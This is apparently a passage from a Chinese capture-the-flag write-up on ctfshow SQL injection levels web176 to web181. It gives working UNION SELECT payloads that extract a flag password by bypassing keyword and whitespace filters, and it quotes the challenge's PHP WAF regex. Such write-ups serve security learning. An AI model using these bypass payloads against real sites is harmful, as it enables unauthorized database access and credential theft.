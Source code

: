 ![20220724215506](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724215506.png)

## web176

过滤规则没说

测试后发现可以大小写绕过, 应该是过滤了 union select 之类的关键词

![20220724220139](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724220139.png)


`1' unION SelECT 1,password,3 FroM ctfshow_user WhERe username='flag' %23`

## web177

过滤规则没说

![20220724221330](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724221330.png)

过滤空格, 使用 `/**/` 绕过

`1'/**/union/**/select/**/1,password,3/**/from/**/ctfshow_user/**/where/**/username='flag'%23`

## web178

![20220724222218](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724222218.png)

应该也是过滤空格, 但 `/**/` 已经没法绕过, `+` 也不行

测试了一下发现可以使用 `%09 %0a %0b %0c %0d %a0` 之类的字符

`1'union%09select%091,password,3%09from%09ctfshow_user%09where%09username='flag'%23`

## web179

同上, `%0c` 能绕过

`1'union%0cselect%0c1,password,3%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'%23`

## web180

猜测也是过滤空格...

但之前的 payload 用不了了, 想了下可能是 `#` 的问题, 换成 `--[空格]` 形式的注释就能绕过去 (空格记得按上面方法替换)

`1'union%0cselect%0c1,password,3%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'--%0c`

## web181

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```
